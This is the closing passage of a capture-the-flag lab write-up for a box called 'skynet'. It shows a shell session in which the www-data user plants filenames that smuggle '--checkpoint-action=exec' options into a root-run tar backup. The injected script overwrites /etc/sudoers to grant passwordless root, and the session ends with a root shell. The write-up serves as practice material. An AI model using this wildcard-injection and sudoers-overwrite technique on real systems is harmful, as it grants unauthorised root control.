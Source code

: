 ```bash
www-data@skynet:/home/milesdyson/backups$ cd  /var/www/html
www-data@skynet:/var/www/html$  echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > demo.sh
www-data@skynet:/var/www/html$ echo "" > "--checkpoint-action=exec=sh demo.sh"
www-data@skynet:/var/www/html$ echo "" > "--checkpoint-action=exec=sh priv.sh"
www-data@skynet:/var/www/html$ echo "" > --checkpoint=1
www-data@skynet:/var/www/html$ cd -
/home/milesdyson/backups
www-data@skynet:/home/milesdyson/backups$ ./backup.sh
tar: /home/milesdyson/backups/backup.tgz: Cannot open: Permission denied
tar: Error is not recoverable: exiting now
www-data@skynet:/home/milesdyson/backups$ sudo -l
sudo -l
User www-data may run the following commands on skynet:
    (root) NOPASSWD: ALL
www-data@skynet:/home/milesdyson/backups$ sudo su
root@skynet:/home/milesdyson/backups# whoami
root
root@skynet:/home/milesdyson/backups# ls /root/ -lh
total 4.0K
-rw-r--r-- 1 root root 33 Sep 17  2019 root.txt
```

## conclusion
this was a really nice box with some fun enumeration, see you in the next write up ^^

